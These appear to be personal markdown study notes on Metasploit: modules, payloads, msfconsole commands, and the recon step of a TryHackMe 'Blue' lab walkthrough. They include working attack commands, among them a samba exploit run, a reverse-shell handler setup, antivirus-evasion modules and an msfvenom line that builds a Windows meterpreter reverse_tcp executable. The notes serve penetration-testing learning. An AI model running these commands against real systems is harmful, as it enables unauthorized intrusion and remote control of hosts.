


# MetaSploit

- Metasploit is a toolkit for penetration testing. it collects reusable pieces of offensive work. Code that exploits vulnerabilities payloads that run on a target, components that listen for connections from those payloads, and helper modules that scan, enumerate and perform post-exploitation tasks. It is a framework that brings these pieces together so testers do not have to write everything from scratch

## Core Concepts

- _Modules_ : Separate components that perform one job, such as exploitiong a vulnerability, scanning a service, or performing post-exploitation.

- _Payloads_ : The code that runs on a target after an exploit succeed. Payloads can be simple shells or advanced interactive agents.

- _Meterpreter_ : A Common interactive payload that provides many built-in capabilities for file access, Running commands, and gathering information.

- _Handles or Listener_ : A Component that waits for a payload to connect back to the tester so the session can be controlled.

- _Database and Workspace_ : Storage that lets testers keep scan results, notes, and session data organized and repeatable.

---

- _To Enter the Metasploit_

```bash
    $ msfconsole
```

## Metasploit Modules

- A module is a piece of software that the metasploit framework uses to perform a task. such as exploiting or scanning a target.
  - _Exploits, Auxiliary, payloads, Encoders, Nops, Evasion, Post_

- **Exploits** : An exploit executes a sequence of commands that target a specific vulnerability found is a system.

- **Auxiliary** : Auxiliary modules include port scanners, fuzzers, sniffers, and more.

- **Payloads** : Payloads consist of code that runs remotely

- **Encoders** : Encoders ensure that payloads make it to their destination intact

- **Nops** : Nops keep the payload sizes consistent across exploit attempts

- **Evasion**: These new modules are designed to help you create payloads that can evade anti-virus (AV) on the target system

- **Post** : Post-exploitation modules that can be run on compromised targets to gather evidence, pivot deeper into a target network, and much more.

---

## msfconsole

- The msfconsole is the most popular interface to the Metasploit Framework (MSF)
- Execution of external commands in msfconsole is possible

```bash
$ service postgresql start # After that enter password
$ service postgresql status # Check the postgresql status
$ msfconsole # With banner
$ banner
$ msfconsole -q # WithOut Banner
$ help
```

- Command Line

```bash
$ show exploits # Show all the Exploits
$ show payloads # Show all the payloads

$ use <Exploits Name>
$ show payload
$ show options
$ set RHOSTS <IP>
$ info
$ show targets
$ show advanced
$ back

---
$ nmap <ip> -sV
$ search name:samba type:exploit platform:unix
$ use <Exploits Name>(exploit/multi/samba/usermap_script)
$ show options
$ set RHOSTS <ip>
$ show options
$ exploit # WOW
$ Ctrl + Z # Background Session
$ sessions -h # Help
$ sessions -l # List of Session
$ sessions -u 1  # Use the session that have running in background
$ sessions -k 1 # To Kill the Session

# Optional Alternatively, keep the existing handler and change your exploit's listener port:
$ set LPORT 4445
$ exploit
```

---

### Payload Types

- Single, Staged or Stages, Stages, MeterPreter, PassiveX, NoNX, Ord, IPv^

---

## New

- **Core Concepts**
  - _Modules_ : Separate components tha perform one job, such as exploiting a vulnerability, scanning a service, or performing post-exploitation.
  - _Payloads_ : The code that runs on a target after an exploit succeeds. payloads can be simple shells or advanced interactive agents.
  - _Meterpreter_: A common interactive payload that provides many built-in capabilities for file access, running commands, and gathering information.
  - _Handle or Listener_ : A component that waits for a payload to connect back to the tester so the session can be controlled.
  - _Database and workspace_ : Storage that lets testers keep scan results, notes, and session data organized and repeatable

```bash
  $ show exploits
  $ show payloads
  $ show post
  $ show encoders
```

## Difference between msfvenom and msfconsole

- **msfvenom** : A payload generator. It builds payload files or code snippets that will run on a target. Think of it as the payload production tool.
- **msfconsole** : The main framework interface and operational environment. It loads modules, manages exploits, and acts as the listener or handler that interacts with payloads when they connect back
- **Simple memory aid** : msfvenom produces the payload. msfconsole runs the framework and manages sessions

- msfvenom is a payload generation tool. Msf console is a listening tool

```bash
$ man msfvenom
$ msfvenom -p windows/meterpreterpayload

```

- In New metasploit the new payload generator comes under metasploit payload
- Meterpreter only work on msfconsole, But shell can be execute on anything
- Search windows ssh vernable paylaod .

```bash
$ search platform:windows name:ssh
$ search platform:windows name:ssh type:exploit
```

---

### What an exploit is

- An exploit is code or steps that take advantage of a vulnerability is software, hardware, or configuration so you can run arbitrary code or commands on a target. Exploits often target a bug in a service, a flawed input validation, a misconfiguration or a logic error.

### Exploit anatomy

- Target information: which software and version the exploit affects.
- Vulnerability vector: How the exploit reaches the vulnerable code (network request, file upload, local action)
- Payload delivery : The exploit delivery a payload after triggering the vulnerability.
- Reliability and constraints : Exploits may require specific conditions or particular options to work.

---

### What an exploit is

**How to run an exploit in msfconsole**

- Find the exploit

```bash
$ search type:exploit name:wordpress
```

- Use It:

```bash
  $ use <exploit_name>
```

- Set target options

```bash
set RHOSTS <ip>
set RPORT 112
set PAYLOAD <Payload_URL>
set LHOST 10.10.10.5
run
```

If successful, you get a session and then move to post-exploitation tasks.

---

## Payload

**What a payload is**

- A payload is the code that runs on the target after an exploit succeeds. Payloads determine what control you get and how you interact with the compromised host. Metasploit payloads range from simple command shells to full-featured agents like meterpreter

- **Payload categories and examples**
  - _Stagers and stages_ : Stagers are small payloads that set up a connection and download a large stage. Example: reverse_tcp stager. Stages are the large agents such as meterpreter.
  - _Bind shell Payloads_ : The target listens on a port, and you connect to it. This can fail with firewalls
  - _Reverse shell Payloads_ : The target connects back to you. This often bypasses outbound firewall rules and is common
  - _Inline payloads_ : Small payloads that execute immediately and do not create persistent sessions.
  - _Meterpreter_ : A staged, in-memory agent with many built-in commands for file access, process manipulation, network sinffing, pivoting and more

- **Choosing a payload**
  - Use meterpreter for interactive tests and when you need post-exploitation features.
  - Use a sample shell for minimal tasks or when MeterPreter is not available
  - Consider architecture and platform
  - Consider detection and defensive controls; some payloads are easier for defenders to detect.

```bash
$ show payload
$ search platform:android
```

---

## Anxiliary Modules



---

# NEW

Components of Metasploit Framework

- msfconsole: The primary cmd-line interface
- Modles: Includes exploits, scanners, payloads, etc
- Tools: Stand-alone tools for vulnerability research, assissment, or pevetration testing, msfvenom

- Using Metasploit:
  - Open Metasploit in the terminal using the _msfconsole_ command
  - Modules are small components built for specific tasks

```bash
$ apt update && apt upgrade
```

- RHOSTS : IP address of target system
- RPORT : Port on the target where the vulnerable application runs.
- PAYLOAD: Code to run on the target system
- LHOST <IP> address of the attacking machine.
- LPORT : Port for the reverse shell to connect back to.

### Additional Components:

- _Encoders_ : Encode exploit and payload to evade antivirus.
- _Evasion_ : Modules attempting to directly evade antivirus.
- _Exploits_ : Organized by target system.
- _NOPs_ : No Operation. used as buffers for consistent payload sizes
- _Payloads_ : Code to run on the target system, categorized as singles, stagers and stages

- Metasploit Commands:

```bash
# Launch Metasploit Console
$ msfconsole

# Search for a module
$ search [module]

# use a module
$ use [module]

# Display module options
$ show options

# Set a value for an option
$ set [option] [value]

# Execute the selected module
$ exploit

# List active sessions
$ sessions

# Interact with a session
$ sessions -i [id]

# Perform Nmap scan and save result
$ db_nmap [target]

# Initiate a TCP port scan
$ use aux/...

# Set up a payload handler
$ use exploit/multi/handler

# Specify payload for exploitation
$ set PAYLOAD [payload]

# Set target host
$ set RHOSTS [target]
# Set target host
$ set RHOSTS [target]

# Set local host ip for reverse connections
$ set LHOST [host]

# Execute post-exploitation modules
$ use post/multi/gather

# Utilize evasion techniques
$ use evasion/[technique]

# Enumerate credentilas
$ use aux//..

# Export data from Metasploit database
$ db_export -f [format] -a [filename]

# MSFVenom
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=xxxx -f exe > rev_shell.exe

```

---

## Hacking into a windows Machine called BLUE

**Task 1 : Recon**
**Task 2 : Gain Access**
**Task 3 : Escalate**
**Task 4 : Cracking**
**Task 5 : Find flags**

### Task 1 : Recon

- The first thing to do is to run a TCP Nmap scan against the 1000 most common ports, and using the following flags:
  - _-sC_ to run default scripts
  - _-sV_ to enumerate applications versions
  - _-Pn_ to skip the host discovery phase, as some hosts will not respond to ping requests

```bash
# To connect with the tryhackme.io vpn
$ openvpn infotechnetwork1.ovpn

# Recon and nmap scan
$ nmap -sC -sV -Pn $ip

# Now we will scan the open ports with nmap for smb vulnerabilities
$ nmap -p 139,135,445,3389 -Pn --script smb-vuln\* <ip>

$ nmap -p445 --script smb-protocols 192.168.216.129

$ exploit
```



The only ports that can be enumerated at the moment are 139 (SMB) and potentially 135 (RPC) as all other port are used for MSRPC

```bash
Update Msf
$ apt msfupdate
```
